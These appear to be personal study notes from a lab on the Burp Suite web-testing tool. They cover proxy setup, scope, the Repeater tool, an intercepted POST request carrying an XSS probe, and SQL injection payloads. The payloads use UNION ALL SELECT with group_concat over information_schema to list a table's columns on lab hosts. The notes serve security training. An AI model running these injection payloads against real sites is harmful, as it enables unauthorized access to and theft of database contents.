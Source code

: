 **Proxy**
- https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-basic/
- Intercept server response. ```Or``` ```Request``` ```Was Intercepted```

**embeded browser**
- ```Project options -> Misc -> Embedded Browser``` and check the ```Allow the embedded browser to run without a sandbox```
- create a new user and run Burp Suite under a low privilege account.(security, recomanded)

**scope**
- after set scope, we need: Proxy Options sub-tab and select ```And``` ```URL``` ```Is in target scope```

**Post modified request**
- URL encode: ctrl+U
POST /ticket/ HTTP/1.1
Host: 10.10.117.83
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://10.10.117.83
Connection: close
Referer: http://10.10.117.83/ticket/
Upgrade-Insecure-Requests: 1

email=<scripttt>alert("Succ3ssful%2bXSS")</scripttt>&content=hack+test
- "%2b" -> "+"

## Brup Suite: Repeater
- Another way: by hand, curl, https://curl.se/
- 0x0d -－"/r"
- 0x0a -－"/n"
- each line of response ends with "/r/n", same as "0d0a".

**SQLi with repeater**
- query ```http://10.10.39.188/about/2'``` with a ```'``` behind.
- Invalid statement: ``` SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 2'</code> ```
- The INFORMATION_SCHEMA Database: "This is the database about databases. It’s used to store details of other databases on the server".
- ``` /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people" ```
- this requey can only retrieve one column_nmae of the people table.
- MySQL GROUP_CONCAT() function returns a string with concatenated non-NULL value from a group.
- Notice that we also changed the ID that we are selecting from 2 to 0. By setting the ID to an invalid number, we  ensure that we don't retrieve anything with the original (legitimate) query; this means that the first row returned from the database will be our desired response from the injected query.
- ``` /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people" ```
- retrieve all columns name of people table.
